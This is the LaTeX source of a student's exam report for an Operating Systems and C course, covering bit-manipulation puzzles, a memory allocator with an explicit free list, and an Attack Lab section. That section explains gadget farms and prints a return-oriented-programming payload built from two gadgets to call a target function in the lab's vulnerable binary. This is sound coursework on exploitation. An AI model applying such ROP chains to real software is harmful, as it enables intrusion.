% !TeX root = main.tex
\documentclass[11pt]{report}
\usepackage{listings}
\usepackage{amsmath}
\usepackage{amssymb}
\usepackage{titlesec}
\usepackage{color}
\usepackage{appendix}
\usepackage{caption}
\usepackage{subcaption}
\usepackage[T1]{fontenc}

\usepackage{tikz}
\usetikzlibrary{patterns}

\usepackage{biblatex}
\addbibresource{ref.bib}
\titleformat{\chapter}{\normalfont\huge}{\thechapter.}{32pt}{\huge}

\lstset
{
    numbers=left,
    stepnumber=1,
    showstringspaces=false,
    tabsize=1,
    basicstyle=\footnotesize\ttfamily\color{black},
    breaklines=true,
    xleftmargin=0.225in,
    frame=l,
    columns=fixed,
    basewidth=0.5em,
    literate={~}{{\fontfamily{ptm}\selectfont \textasciitilde}}1
}

\setlength{\parindent}{0pt}

\begin{document}
\begin{titlepage}
  \vspace*{\fill}

  \begin{center}
    {\Huge Exam in Operating Systems And C \par
    }

    \bigskip\bigskip%
    Albert Rise Nielsen\\
    albn@itu.dk

    %%%%%

    \bigskip\bigskip\bigskip%
    \begin{tabular}{rl}
      Course Name:& Operating Systems and C\\
      Course Code:& BSOPSYC1KU\\
      Course Manager:& Willard Rafnsson
    \end{tabular}

    \bigskip\bigskip\bigskip\bigskip%
    \date{\today}
  \end{center}

  \vspace*{\fill}
\end{titlepage}
\tableofcontents
\newpage

\chapter{Data Lab}
\subsection{A}
% Describe your implementation of howManyBits(x)
\begin{lstlisting}[language=C]
int howManyBits(int x) {
  // Assign integers to us later;
  int ret = 0, y = 0;

  // Get the sign of x
  // All 1s if negative, all zeroes if positive
  int sign = x >> 31;

  // If the number is negative get -x-1 
  // Aka if -12 get 11, or if 12 get 12
  // The number of digits for those 2 are exactly the same, so doing this just makes it significantly easier to work with
  x = ((sign & ~x)|(~sign & x));
 
  // Do a sort of command and conquer
  // First shift by the first half of the int size
  // Then check if there are any bits remaining
  // If there is, then set y to 16, otherwise its 0
  // Shift x by y bits, which means we wont count those bits again. If there was less than 16 bits, nothing happens.
  //  
  // Repeat this process, halfing the amount each time. 
  y = !!(x >> 16) << 4; x >>= y; ret += y;
  y = !!(x >> 8) << 3;  x >>= y; ret += y;
  y = !!(x >> 4) << 2;  x >>= y; ret += y;
  y = !!(x >> 2) << 1;  x >>= y; ret += y;
  y = !!(x >> 1);       x >>= y; ret += y; // No need to shift 1, as it would be by 0
  ret += x; // If there is more bits left, its simply 1, and is just set to x
  return 1+ret; // Return the result, adding a bit for the sign
}
\end{lstlisting}

The function $howManyBits(x)$ determines how many bits are necessary to represent the number $x$. To to do so first get the sign of the number and negate negative numbers to one less. Ex $-12$ becomes $11$
\begin{align*}
    -12 &= 1111\ 1111\ 1111\ 1111\ 1111\ 1111\ 1111\ 0100\\
    \sim-12 &= 0000\ 0000\ 0000\ 0000\ 0000\ 0000\ 0000\ 1011\\
    \text{sign}  &= 1111\ 1111\ 1111\ 1111\ 1111\ 1111\ 1111\ 1111\\
    \sim\text{sign} &= 0000\ 0000\ 0000\ 0000\ 0000\ 0000\ 0000\ 0000\\
    -12 \& \sim-1 &= 0000\ 0000\ 0000\ 0000\ 0000\ 0000\ 0000\ 0000\\
    \sim-12 \& \text{sign} &= 0000\ 0000\ 0000\ 0000\ 0000\ 0000\ 0000\ 1011\\
    (-12 \& \sim\text{sign}) | (~-12 \& \text{sign}) &= 0000\ 0000\ 0000\ 0000\ 0000\ 0000\ 0000\ 1011\\
    11  &= 0000\ 0000\ 0000\ 0000\ 0000\ 0000\ 0000\ 1011
\end{align*}
The above lists all the mutations done on the 12. The purpose of which is to get the "negated" number if it's negative. For $x=11$ the mutations look like:
\begin{align*}
    11 &= 0000\ 0000\ 0000\ 0000\ 0000\ 0000\ 0000\ 1011\\
    \sim11 &= 1111\ 1111\ 1111\ 1111\ 1111\ 1111\ 1111\ 0100\\
    \text{sign} &= 0000\ 0000\ 0000\ 0000\ 0000\ 0000\ 0000\ 0000\\
    \sim\text{sign} &= 1111\ 1111\ 1111\ 1111\ 1111\ 1111\ 1111\ 1111\\
    11 \& \sim\text{sign} &= 0000\ 0000\ 0000\ 0000\ 0000\ 0000\ 0000\ 1011\\
    \sim11 \& \text{sign} &= 0000\ 0000\ 0000\ 0000\ 0000\ 0000\ 0000\ 0000\\
    (11 \& \sim\text{sign}) | (~11 \& \text{sign}) &= 0000\ 0000\ 0000\ 0000\ 0000\ 0000\ 0000\ 1011
\end{align*}
For positive numbers nothing is esentially done, but it's necessary for the algorithm to work. 

Next step is to do a search for the outermost bit. This is done by shifting the number by half the size of the integer, initially 16. If there are any bits left, then add 16 to the result. And shift the number by 16. Repeat with 8,4,2 and 1. Doing so will narrow us down more and more to the result. One thing to note is that we always add 1 at the end of the method for the sign. If we take 17 as an example. 
\begin{align*}
    17 &= 0000\ 0000\ 0000\ 0000\ 0000\ 0000\ 0001\ 0001\\
    \text{shift by 4} &= 0000\ 0000\ 0000\ 0000\ 0000\ 0000\ 0000\ 0001\\
    \text{add 4 to y} &= 4\\
    \text{shift x by 4} &= 0000\ 0000\ 0000\ 0000\ 0000\ 0000\ 0000\ 0001\\
    \text{shift by 2} &= 0000\ 0000\ 0000\ 0000\ 0000\ 0000\ 0000\ 0000\\
    \text{shift by 1} &= 0000\ 0000\ 0000\ 0000\ 0000\ 0000\ 0000\ 0000\\
    \text{add x to y} &= 5
    \text{add 1 for sign} &= 6
\end{align*}

\subsection{B}
\begin{lstlisting}[language=C]
int tmin(void) {
    // The absolute minimum value is 0x80000000, which can be achieved by shifting 1 left 31 bits.
    return 1 << 31;
}
\end{lstlisting}

The absolute minimum value of an int is, by two's complement, $0x80000000$, aka 1 only followed by 0. This can be achieved by shifting 1 left 31 bits.


\chapter{Attack Lab}
% What happens when the c3 assembly instruction is executed? Does anything on the stack change?
\section{A}
The \textit{ret} instruction pops the return address off the stack and transfers the control to it. Then the stack pointer and instruction pointer is set to match the return address method. While not directly done by \textit{ret} it's worth noting that the \textit{\%eax} register is set to the return value, which is used by the calling method to get the return value.

\section{B}
% What is a gadget farm?
A gadget farm is a section of code that contains gadgets. A gadget is a part of code that contains instructions followed by a \textit{ret} instruction. These can be used to execute small parts of code in an exploit. Such as moving a value to a register, performing small or a single operation etc. Gadgets arent't often present on purpose, they are extracted from other code. Such as setting a value to something specific,  and then returning. This might accidentally encode into something that can be used as a gadget.\\

Gadgets are, usually, not especially useful on their own. But if used together they can be a powerful tool. For example, if we have a gadget that moves a value to a register, and another that performs an operation on that register, we can use them together to perform an operation on a value.\\[1ex]

In the case of attacklab, the goal was to run a method with an argument. This meant setting the \textit{\%rdi} register to the argument. The value of the argument is on the top of the stack, so we need to find a way to pop to \textit{\%rdi}. This can't be directly done with our gadgets, but we can pop to \textit{\%rax} with this gadget:
\begin{lstlisting}[language={[x86masm]Assembler}]
0000000000402985 <setval_484>:
  402985:	f3 0f 1e fa          	endbr64 
  402989:	c7 07 58 90 90 c3    	movl   $0xc3909058,(%rdi)
  40298f:	c3                   	retq   
\end{lstlisting}
The instruction \textit{58} will pop to \textit{\%rax}. Located at $402989 + 2 = 40298B$. Then we can move the value to \textit{\%rdi} with this gadget:
\begin{lstlisting}[language={[x86masm]Assembler}]
0000000000402970 <getval_104>:
    402970:	f3 0f 1e fa          	endbr64 
    402974:	b8 48 89 c7 c3       	mov    $0xc3c78948,%eax
    402979:	c3                   	retq   
\end{lstlisting}
The instruction \textit{48 89 c7} will move the value in \textit{\%rax} to \textit{\%rdi}. Located at $402974 + 1 = 402975$.\\[1ex] 

With that information collected we can construct the payload:
\begin{lstlisting}
00 00 00 00 00 00 00 00 /* padding start */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /* padding end */
8B 29 40 00 00 00 00 00 /* gadget 1 */
88 7a 22 43 00 00 00 00 /* cookie */
75 29 40 00 00 00 00 00 /* gadget 2 */
7c 27 40 00 00 00 00 00 /* touch2 address */ 
\end{lstlisting}
It starts with the padding, then the first gadget, which will be executed first. Then the cookie, which will be popped to \textit{\%rax}. Then the second gadget, which will move the value to \textit{\%rdi}. And finally the address of the \textit{touch2} method, which will be executed after the gadget.\\[1ex]

\chapter{Malloc Lab}
\section{A}
% Explain in detail your implementation of the mm_malloc function
The function \textit{mm\_malloc}, see appendix \ref{appendix:malloc_lab_code_mm_malloc}, takes a size $x$, finds or creates a spot for it on the heap and places, removing it from the available blocks. My implementation of malloclab uses and explict free list, which is essentially just a linked list between all the free blocks of memory.

A 8 word block of memory is allocated as 10 words, where 2 are used for the header and footer, figure \ref{fig:malloc_lab_a} illustrates such a free block.
\begin{figure}[h]
    \centering
    
\begin{tikzpicture}
        \draw[thick] (0,0) -- (0,2) -- (10,2) -- (10,0) -- (0,0);
        
        \draw[thick] (1,0) -- (1,2);
        \draw[thick] (2,0) -- (2,2);
        \draw[thick] (3,0) -- (3,2);
        \draw[thick] (9,0) -- (9,2);

        \node[rotate=90] (header) at (0.5,1) {Header};
        \node[rotate=90] (next) at (1.5,1) {Next};
        \node[rotate=90] (prev) at (2.5,1) {Prev};
        \node[rotate=90] (footer) at (9.5,1) {Footer};
    \end{tikzpicture}
    \caption{Free block}
    \label{fig:malloc_lab_a}
\end{figure}
The header and footer of a block are identical and contain the size of the block and a bit indicating allocation state. The next and prev pointers are used to link to the next and previous blocks in the free list.\\[1ex]

The \textit{mm\_malloc} method first checks if the heap is initialized, if not it initializes it with a call to \textit{mm\_init}. Then we align the given size to be double word aligned, and then attempt to find a free block, with \textit{find\_fit} that can contain the aligned size. If not possible the heap is extended, with \textit{extend\_heap}, which creates a new free block. Then we place the block, either in the found block or the newly created block, with \textit{place}. Each of these methods are described in the following sections, as well as \textit{coalesce} which is used to merge free blocks. 

\subsection{find\_fit}
\textit{find\_fit}, appendix \ref{appendix:malloc_lab_code_find_fit}, is extremely naively implemented. It simply iterates through the free list and returns the first block that is large enough to fit the given size.\\[1ex]

This is far from the most efficient method. There is also the method of best fit which attempts to waste as little space as possible, but requires iterating the entire list. Alternatively there is next fit, which keeps track of the last block used, and searches from there. This has the advantage of not fragmenting the beginning of memory as much as first fit, but it might take a while to reuse freed memory.

\subsection{extend\_heap}
\textit{extend\_heap}, appendix \ref{appendix:malloc_lab_code_extend_heap}, calls \textit{mem\_sbrk}, an external method, to extend the heap by a given number of words. Then it creates a free block that spans the entirety of the newly allocated memory. To end with it calls \textit{coalesce} to merge the new block with any adjacent free blocks. In the case of \textit{extend\_heap} it can only coalesce with the block to it's left, but to not add complexity the existing method is used.\\[1ex]

\subsection{coalesce}
\textit{coalesce}, appendix \ref{appendix:malloc_lab_code_coalesce}, merges adjacent free blocks. It takes a pointer to a block, and checks if the previous and next blocks are free. If they are it removes them from the free list, merge with the given block and adds the combined block to the free list. In case no blocks can be merged, it adds the given block to the free list\\[1ex]

There are 4 cases that coalesce can handle, figure \ref{fig:malloc_lab_coalesce} illustrates the cases.
\begin{figure}[h]
    \begin{subfigure}[b]{\textwidth}
        \centering
        
\begin{tikzpicture}
            \draw[thick, pattern=north west lines] (0,0) rectangle (4,2);
            \draw[thick] (4,0) rectangle (8,2);
            \draw[thick, pattern=north west lines] (8,0) rectangle (12,2);
        \end{tikzpicture}
        \caption{No merge}
    \end{subfigure}
    \begin{subfigure}[b]{\textwidth}
        \centering
        
\begin{tikzpicture}
            \draw[thick, pattern=north west lines] (0,0) rectangle (4,2);
            \draw[thick] (4,0) rectangle (8,2);
            \draw[thick] (8,0) rectangle (12,2);
        \end{tikzpicture}
        \caption{Merge with right}
    \end{subfigure}
    \begin{subfigure}[b]{\textwidth}
        \centering
        
\begin{tikzpicture}
            \draw[thick] (0,0) rectangle (4,2);
            \draw[thick] (4,0) rectangle (8,2);
            \draw[thick, pattern=north west lines] (8,0) rectangle (12,2);
        \end{tikzpicture}
        \caption{Merge with left}
    \end{subfigure}
    \begin{subfigure}[b]{\textwidth}
        \centering
        
\begin{tikzpicture}
            \draw[thick, pattern=north west lines] (0,0) rectangle (4,2);
            \draw[thick] (4,0) rectangle (8,2);
            \draw[thick, pattern=north west lines] (8,0) rectangle (12,2);
        \end{tikzpicture}
        \caption{Merge with both left and right}
    \end{subfigure}

    \centering
    \caption{Coalesce cases}
    \label{fig:malloc_lab_coalesce}
\end{figure}

\newpage
\subsection{place}
\textit{place}, appendix \ref{appendix:malloc_lab_code_place}, takes a pointer to a block and a size. It checks if the given block is large enough to split into two. If it is it splits it by resizing the given block to the given size, done by moving creating a new footer with the new size, and overwriting the size in the header. It then creates a new header after it, with the remaining size, and overwrites the footer after that. This new block is added to the free list by calling \textit{coalesce}. If it cannot split the block \textit{place} simply sets the allocation bit to true\\[1ex]

\subsection{Adding to, and removing from the free list}
Two methods \textit{insert\_in\_empty\_list} and \textit{remove\_from\_empty\_list} provide the interface with the empty list.\\[1ex]

\textit{insert\_in\_empty\_list}, appendix \ref{appendix:malloc_lab_code_insert_in_empty_list}, takes a pointer to a block and inserts it in the empty list. Due to the LIFO principle (Last in first out) the method first sets the previous pointer on the root block (first block in the list) to the given on, then sets the next pointer of the current block to the root block, lastly set the previous pointer of the current block to null. See \ref{fig:malloc_lab_list}\\[1ex]

\textit{remove\_from\_empty\_list}, appendix \ref{appendix:malloc_lab_code_remove_from_empty_list}, takes a pointer to a block that should be removed from the empty list. If we're the root then we set the next blocks previous to null, and store it's pointer as the new root. Otherwise we set the previous blocks next pointer the the next block and the previous pointer of the next block to the previous block.\\[1ex]

\begin{figure}[h]
    \centering
    \begin{subfigure}[b]{\textwidth}
        \centering
        
\begin{tikzpicture}
            \draw[thick] (0,0) rectangle (4,2);
            \draw[thick] (4,0) rectangle (8,2);
            
            \draw[thick] (1,0) -- (1,2);
            \draw[thick] (2,0) -- (2,2);
            \draw[thick] (3,0) -- (3,2);

            \node[rotate=90] (header) at (0.5,1) {Header};
            \node[rotate=90] (next) at (1.5,1) {Next};
            \node[rotate=90] (prev) at (2.5,1) {Prev};
            \node[rotate=90] (footer) at (3.5,1) {Footer};

            \node (null) at (-1,3) {NULL};

            \draw[thick, ->] (1.5,2) to[out=90, in=0] (null);
            \draw[thick, ->] (2.5,2) to[out=90, in=0] (null);
        \end{tikzpicture}
        \caption{Before}
    \end{subfigure}
    \begin{subfigure}[b]{\textwidth}
        \centering
        
\begin{tikzpicture}
            \draw[thick] (0,0) rectangle (4,2);
            \draw[thick] (4,0) rectangle (8,2);
            
            \draw[thick] (1,0) -- (1,2);
            \draw[thick] (2,0) -- (2,2);
            \draw[thick] (3,0) -- (3,2);

            \draw[thick] (5,0) -- (5,2);
            \draw[thick] (6,0) -- (6,2);
            \draw[thick] (7,0) -- (7,2);

            \node[rotate=90] (header) at (0.5,1) {Header};
            \node[rotate=90] (next) at (1.5,1) {Next};
            \node[rotate=90] (prev) at (2.5,1) {Prev};
            \node[rotate=90] (footer) at (3.5,1) {Footer};

            \node[rotate=90] (header) at (4.5,1) {Header};
            \node[rotate=90] (next) at (5.5,1) {Next};
            \node[rotate=90] (prev) at (6.5,1) {Prev};
            \node[rotate=90] (footer) at (7.5,1) {Footer};

            \draw[thick, ->] (2.5,0) to[out=270, in=270] (5.5,0);
            \draw[thick, ->] (5.5,2) to[out=90, in=90] (1.5,2);

            \node (null) at (-1,3) {NULL};

            \draw[thick, ->] (1.5,2) to[out=90, in=0] (null);
            \draw[thick, ->] (6.5,2) to[out=90, in=0] (null);
        \end{tikzpicture}
        \caption{After}
    \end{subfigure}
    \caption{Inserting in the empty list}
    \label{fig:malloc_lab_list}
\end{figure}
\newpage
\section{B}
% What is pointer arithmethic? Describe how you used it in your version of mm.c
In C a pointer is a numeric value. Therefore we can perform arithmethic on it. Such as adding or subtracting a number to it. This is called pointer arithmetic.\\[1ex]

In my version of \textit{mm.c} I used pointer arithmetic to move find the location of the header, footer and previous pointer. It was also used to find the location of the next block, and previous, block in memory, calculated using the size of the block. 
\begin{lstlisting}[language=C]
// Compute the address of the header, from a pointer to the data location
#define HDRP(bp) ((char *)(bp)-WSIZE)
// Compute the address of the footer, from a pointer to the data location
#define FTRP(bp) ((char *)bp + GET_SIZE(HDRP(bp)) - DSIZE)

// Compute the location of the next block by the data location of a block
#define NEXT_BLKP(bp) ((char *)bp + GET_SIZE((char *)(bp)-WSIZE))
// Compute the location of the previous block by the data location of a block
#define PREV_BLKP(bp) ((char *)bp - GET_SIZE((char *)(bp)-DSIZE))

// Get the location of the pointer to the next block
#define NEXT_FBLKP(bp) ((char *)bp)
// Get the location of the pointer to the next block
#define PREV_FBLKP(bp) ((char *)bp+WSIZE)
\end{lstlisting}
All these usecases assume the given pointer is at the beginning of the blocks data. To find the header simply remove a word, as it's placed right before the data, and you have the pointer to the header location. To find the footer add the size of the block, this is retrieved from the header, and subtract a double word, as the footer is placed right after the data\\[1ex]

Next block is found by adding the size of the block to the pointer. Previous pointer is calculated by getting the size of the previous blocks footer, stored 2 words before the data, and subtracting it from the pointer.\\[1ex]

The next free block pointer location is stored at at the data location. The previous free block pointer location is stored 1 word after the data location, so simply add the word size.

\chapter{Appendix}
\appendix
\chapter{Malloc Lab code}
\section{mm\_malloc}\label{appendix:malloc_lab_code_mm_malloc}
\begin{lstlisting}[language=C]
void *mm_malloc(size_t size) {
    size_t asize;      // Adjusted block size 
    size_t extendsize; // Amount to extend heap if no fit 
    void *bp;
    
    if (heap_listp == 0) {
        mm_init();
    }
    
    // Ignore spurious requests 
    if (size == 0)
        return NULL;
    
    asize = get_alligned(size);
    if ((bp = find_fit(asize)) == NULL) {
    
        extendsize = MAX(asize, CHUNKSIZE);
        if ((bp = extend_heap(extendsize / WSIZE)) == NULL)
        return NULL;
    }
    
    // No fit found. Get more memory and place the block 
    place(bp, asize);
    
    return bp;
}
\end{lstlisting}

\section{find\_fit}\label{appendix:malloc_lab_code_find_fit}
\begin{lstlisting}[language=C]
static void *find_fit(size_t asize)
{
  // First-fit search 
  void *bp = first_freep;

  while (bp != NULL) {
    if (GET_SIZE(HDRP(bp)) >= asize)
      return bp;
    bp = NEXT_FBLK(bp);
  }

  return NULL;
}
\end{lstlisting}

\section{extend\_heap}\label{appendix:malloc_lab_code_extend_heap}
\begin{lstlisting}[language=C]
    static void *extend_heap(size_t words) {
  char *bp;
  size_t size;

  // Allocate an even number of words to maintain alignment 
  size = (words % 2) ? (words + 1) * WSIZE : words * WSIZE;
  if ((long)(bp = mem_sbrk(size)) == -1)
    return NULL;

  // Initialize free block header/footer and the epilogue header 
  // Overwrites old epilogue header, notice HDRP
  PUT(HDRP(bp), PACK(size, 0));         // Free block header 
  PUT(FTRP(bp), PACK(size, 0));         // Free block footer 
  PUT(HDRP(NEXT_BLKP(bp)), PACK(0, 1)); // New epilogue header 

  // Coalesce if the previous block was free 
  return coalesce(bp);
}
\end{lstlisting}

\section{coalesce}\label{appendix:malloc_lab_code_coalesce}
\begin{lstlisting}[language=C]
static void *coalesce(void *bp) {
  // Is the previous block allocated
  size_t prev_alloc = GET_ALLOC(FTRP(PREV_BLKP(bp)));
  // Is the next block allocated?
  size_t next_alloc = GET_ALLOC(HDRP(NEXT_BLKP(bp)));
  // Get the size of the current block
  size_t size = GET_SIZE(HDRP(bp));

  // Sandwiched between 2 allocated blocks
  if (prev_alloc && next_alloc) {
    insert_in_empty_list(bp);
    return bp;
  }
  
  // Previous is allocated, but the next is free
  else if (prev_alloc && !next_alloc) {
    // Get the combined size of the current and next block
    size += GET_SIZE(HDRP(NEXT_BLKP(bp)));
    // Remove from empty list
    remove_from_empty_list(NEXT_BLKP(bp));
    // Overwrite the current block size
    PUT(HDRP(bp), PACK(size, 0));
    PUT(FTRP(bp), PACK(size, 0));
  }

  // Previous is free, but the next is allocated
  else if (!prev_alloc && next_alloc) {
    // Get the combined size of the current and next block
    size += GET_SIZE(HDRP(PREV_BLKP(bp)));
    // Remove from empty list
    remove_from_empty_list(PREV_BLKP(bp));
    // Overwrite the header of the previous block
    PUT(FTRP(bp), PACK(size, 0));
    PUT(HDRP(PREV_BLKP(bp)), PACK(size, 0));
    // Return the bp of previous blocks original position
    bp = PREV_BLKP(bp);
  } 

  // Both are free
  else {
    // Get the full size
    size += GET_SIZE(HDRP(PREV_BLKP(bp))) + GET_SIZE(FTRP(NEXT_BLKP(bp)));
    // Remove from empty list
    remove_from_empty_list(NEXT_BLKP(bp));
    remove_from_empty_list(PREV_BLKP(bp));
    // Overwrite the header of the previous block
    PUT(HDRP(PREV_BLKP(bp)), PACK(size, 0));
    // Overwrite the footer of the next block
    PUT(FTRP(NEXT_BLKP(bp)), PACK(size, 0));
    // Return the bp of previous blocks original position
    bp = PREV_BLKP(bp);
  }
  insert_in_empty_list(bp);

  // No change so return the current block
  return bp;
}
\end{lstlisting}

\section{place}\label{appendix:malloc_lab_code_place}
\begin{lstlisting}[language=C]
static void place(void *bp, size_t asize)
{
    // Get the size of the block
    size_t csize = GET_SIZE(HDRP(bp));

    remove_from_empty_list(bp);
    // Split if there is space for another block, and its headers after our data
    if ((csize - asize) >= (2 * DSIZE)) {
    // Create the block for our data and allocate it
    PUT(HDRP(bp), PACK(asize, 1));
    PUT(FTRP(bp), PACK(asize, 1));
    // Create pointer for the block after
    bp = NEXT_BLKP(bp);
    // Create new free block
    PUT(HDRP(bp), PACK(csize - asize, 0));
    PUT(FTRP(bp), PACK(csize - asize, 0));

    coalesce(bp);
    } else {
    // Set the block as allocated
    PUT(HDRP(bp), PACK(csize, 1));
    PUT(FTRP(bp), PACK(csize, 1));
    }
}
\end{lstlisting}

\section{insert\_in\_empty\_list}\label{appendix:malloc_lab_code_insert_in_empty_list}
\begin{lstlisting}[language=C]
static void insert_in_empty_list(void *bp) {
  set_prev_fblkp(first_freep, bp);
  set_next_fblkp(bp, first_freep);
  set_prev_fblkp(bp, NULL);

  first_freep = bp;
}
\end{lstlisting}

\section{remove\_from\_empty\_list}\label{appendix:malloc_lab_code_remove_from_empty_list}
\begin{lstlisting}[language=C]
static void remove_from_empty_list(void *bp) {
    void *prevp = PREV_FBLK(bp);
    void *nextp = NEXT_FBLK(bp);
  
    if (prevp == NULL) {
      set_prev_fblkp(nextp, NULL);
      first_freep = nextp;
    } else {
      set_next_fblkp(prevp, nextp);
  
      if (nextp != NULL)
        set_prev_fblkp(nextp, prevp);
    }
  
    set_next_fblkp(bp, 0);
    set_prev_fblkp(bp, 0);
}
\end{lstlisting}

\end{document}